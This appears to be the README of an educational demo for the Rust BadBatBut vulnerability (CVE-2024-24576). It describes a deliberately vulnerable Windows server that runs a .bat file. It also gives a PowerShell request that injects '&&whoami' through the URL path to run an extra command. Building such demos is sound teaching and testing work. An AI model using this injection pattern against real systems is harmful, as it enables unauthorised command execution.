 # CVE-2024-24576 BadBatBut Demo

This is a simple demo for the BadBatBut vulnerability CVE-2024-24576.

More information here - https://blog.rust-lang.org/2024/04/09/cve-2024-24576.html.

This repository is for educational purposes only.

## Usage

### Pre-built binary
- Get the pre-built windows binary from the [releases](https://github.com/corysabol/batbadbut-demo/releases).
- Run the server binary `./badbatbut-demo.exe`

### Build from source
- Clone this repo
- Run the code on a Windows box `cargo run`

### Exploit

The server exposes an endpoint `/server_info/{server}` on `http://localhost:9999` which runs a .bat file to fetch server info.
The vulnerability can be exploited by sending a GET request to this endpoint like follows:

```
Write-Output (Invoke-WebRequest -Uri "http://localhost:9999/server_info/localhost&&whoami").Content
```
